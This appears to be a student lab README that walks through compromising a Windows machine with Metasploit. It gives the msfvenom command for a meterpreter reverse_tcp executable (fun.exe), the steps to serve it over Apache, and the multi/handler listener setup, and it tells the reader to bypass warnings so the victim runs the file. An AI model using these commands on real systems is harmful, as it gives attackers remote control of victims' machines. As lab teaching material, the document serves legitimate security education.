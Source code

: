 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/6305f05a-7760-46cc-86e0-a02b10489d73)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/e6878cd8-282f-46db-89e8-36944721bad7)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/116de4cc-d9ba-4b5a-99ec-da62e7705f77)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19784f1-a936-4564-905b-696a26f92904)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/31b20403-1a34-422e-9c8b-204521d0ab2d)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/a76d98f7-9e6e-426e-9e81-b6399d698f46)
![image](https://github.com/user-attachments/assets/47a8b14f-fa98-492e-9bda-3cefdfbe0f21)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/user-attachments/assets/1b05bcd6-b621-44df-b7d8-f89d13433da6)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT:
![image](https://github.com/user-attachments/assets/a01cffbc-6ec1-4eaa-8c7d-dcc54cf499bf)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/user-attachments/assets/e4ad8749-3d43-489d-a527-1acc52ce46e6)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
